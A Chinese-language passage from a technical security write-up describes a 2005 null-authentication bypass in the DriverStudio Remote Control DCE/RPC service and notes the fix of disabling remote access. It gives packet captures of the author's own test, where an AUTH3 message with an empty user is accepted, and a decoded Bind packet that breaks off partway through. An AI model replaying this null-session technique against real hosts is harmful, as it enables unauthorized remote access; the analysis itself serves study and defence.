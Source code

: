 ☆ 使用空认证访问DriverStudio Remote Control服务

2005年9月14日cocoruder对外发布了一份与该服务相关的文档([23])。他发现的这个
漏洞是指可以用空认证绕过权限检查，注意空认证与没有认证是两个概念。

去DriverStudio的设置界面里禁止远程访问即可，不过缺省是允许的。

他没有给演示代码及CAP文件，不过重点部分已经说清楚了。因为与AUTH3(16)报文有
关，顺便测试了一下，这里给两个示例。将启动方式改成disabled(测试的是3.1版):

--------------------------------------------------------------------------
166 DCERPC 192.168.7.2   192.168.7.151 3194 1032 Bind: call_id: 1 UUID: 32d90706-b698-4029-b236-e18ebff582b1 ver 1.0, NTLMSSP_NEGOTIATE
298 DCERPC 192.168.7.151 192.168.7.2   1032 3194 Bind_ack: call_id: 1, NTLMSSP_CHALLENGE accept max_xmit: 5840 max_recv: 5840
169 DCERPC 192.168.7.2   192.168.7.151 3194 1032 AUTH3: call_id: 1, NTLMSSP_AUTH, User: \
134 DCERPC 192.168.7.2   192.168.7.151 3194 1032 Request: call_id: 2 opnum: 1 ctx_id: 0 UNKUUID: 32d90706-b698-4029-b236-e18ebff582b1 rpcver: 1
82  DCERPC 192.168.7.151 192.168.7.2   1032 3194 Response: call_id: 2 ctx_id: 0 UNKUUID: 32d90706-b698-4029-b236-e18ebff582b1 rpcver: 1

DCE RPC Bind, Fragment: Single, FragLen: 112, Call: 1
    Version: 5
    Version (minor): 0
    Packet type: Bind (11)
    Packet Flags: 0x03
        0... .... = Object: Not set
        .0.. .... = Maybe: Not set
        ..0. .... = Did Not Execute: Not set
        ...0 .... = Multiplex: Not set
        .... 0... = Reserved: Not set
        .... .0.. = Cancel Pending: Not set
        .... ..1. = Last Frag: Set
        .... ...1 = First Frag: Set
    Data Representation: 10000000
        Byte order: Little-endian (1)
        Character: ASCII (0)
        Floating-point: IEEE (0)
    Frag Length: 112
    Auth Length: 32
    Call ID: 1
    Max Xmit Frag: 5840
    Max Recv Frag: 5840
    Assoc Group: 0x00000000
    Num Ctx Items: 1
    Context ID: 0
        Num Trans Items: 1
        Interface UUID: 32d90706-b698-4029-b236-e18ebff582b1
            Interface Ver: 1
            Interface Ver Minor: 0
            Transfer Syntax: 8a885d04-1ceb-11c9-9fe8-08002b104860
            Syntax ver: 2
    Auth type: NTLMSSP (10)
    Auth level: Connect (2)
    Auth pad len: 0
    Auth Rsrvd: 0
    Auth Context ID: 1373592
    NTLMSSP
        NTLMSSP identifier: NTLMSSP
        NTLM Message Type: NTLMSSP_NEGOTIATE (0x00000001)
        Flags: 0xa0088207
            1... .... .... .... .... .... .... .... = Negotiate 56: Set
            .0.. .... .... .... .... .... .... .... = Negotiate Key Exchange: Not set
            ..1. .... .... .... .... .... .... .... = Negotiate 128: Set
            ...0 .... .... .... .... .... .... .... = Negotiate 0x10000000: Not set
            .... 0... .... .... .... .... .... .... = Negotiate 0x08000000: Not set